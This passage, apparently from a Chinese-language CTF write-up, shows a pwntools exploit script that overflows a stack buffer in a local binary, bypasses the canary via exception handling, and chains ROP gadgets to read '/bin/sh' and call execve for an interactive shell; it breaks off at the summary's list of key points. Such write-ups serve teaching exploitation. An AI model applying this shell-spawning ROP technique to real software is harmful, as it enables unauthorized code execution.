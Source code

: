 ```plain
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401b6e')

backdoor_try = 0x401B55  
io.recvuntil("called")
pop_rdi = 0x000000000040291c #: pop rdi ; ret
pop_rsi = 0x0000000000404009 #: pop rsi ; ret
pop_rdx_rbx = 0x000000000049775b #: pop rdx ; pop rbx ; ret
pop_rax = 0x0000000000462f37 #: pop rax ; ret
syscall = 0x000000000040fac9 #: syscall
read_addr = 0x4624D0
binsh = 0x4d7000 #
payload = b'a'*0x28
payload += p64(backdoor_try+1)
payload += b'b'*0x18
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(binsh)
payload += p64(pop_rdx_rbx)
payload += p64(0x8)
payload += p64(0)
payload += p64(read_addr)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(59)
payload += p64(syscall)
io.send(payload)
sleep(1)
io.sendline('/bin/sh\x00')

io.interactive()
```

### 小结

我们看到了在不使用 rbp 作为栈帧寄存器的情况下，可以利用异常处理的特性，使得 canary 防护无效化，大幅降低漏洞利用难度，配合传统栈溢出手法即可。几个关键点如下：
